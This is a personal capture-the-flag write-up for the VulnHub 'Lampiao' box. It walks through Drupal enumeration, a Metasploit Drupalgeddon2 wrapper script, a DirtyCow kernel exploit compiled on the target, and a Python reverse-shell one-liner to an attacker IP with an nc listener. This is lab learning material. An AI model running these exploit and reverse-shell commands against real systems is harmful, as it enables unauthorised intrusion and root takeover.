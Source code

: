 #Reconnaissance 
Nmap scan. 
Found port 1898 open, which was found to be running drupal
Looked for Drupal enumeration apps and was able to find "Drupwn" on github. Installed and executed, discovering the running version was likely to be 8.x


#InitialAccess
Searchsploit contained several entries for "DrupalGeddon". One of them had a .rb extension, implying it was a msf module, so I executed ``` msfconsole ``` followed by ```search drupal```, which confirmed a module did exist.

Low priv shell can be automated as follows in (Kali with metasploit framework)
```
#lampiao_low_priv.sh
#/bin/bash
rhost=${1}
msfconsole -x "use exploit/unix/webapp/drupal_drupalgeddon2;\
	set payload php/meterpreter/bind_tcp;\
	set rport 1898;\
	set rhost $tgt;\
	exploit;\
	cd ~/toolz;\
	# upload ~/toolz/les.sh /tmp/" # enumeration script 
```
 
 #Discovery 
After  executing a large number of manual enumeration steps, checked other guides. The majority of users achieved root by using the Linux Exploit Suggester script (les.sh), which feels sort of cheap compared to the typically OffSec box (granted, this is vanilla vuln-hub).

uname -a output
```
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
```
searchsploit 4.4.0 nets the following
![[Pasted image 20220609223956.png]]

- Several of the Ubuntu related exploits are inapplicable as they apply to version 16.04
- Chocoboroot fails due to the arch not being applicable (i686)


#PrivilegeEscalation
From attacker computer, set up listener for stable reverse shell (php shell seems to die after executing dirty cow)

```
nc -lvp 7777
export tgt={target ip address}
```

This will spawn a meterpreter shell on the victim. Once it's opened, execute the following
```
# meterpreter cmds
upload DirtyCow.c /tmp/dcow.c
shell
```

Once dropped into the shell, execute the following
```
# on lampiao
cd /tmp
gcc dcow.c -o dc -pthread
chmod +x dc
./dc 

# executing binary interrupts flow here. Have to manually copy and paste 
# these commands, unless there's a way to modify the payload to execute 
# them automatically. (likely)

echo 0 > /proc/sys/vm/dirty_writeback_centisecs
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.49.75',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
whoami
```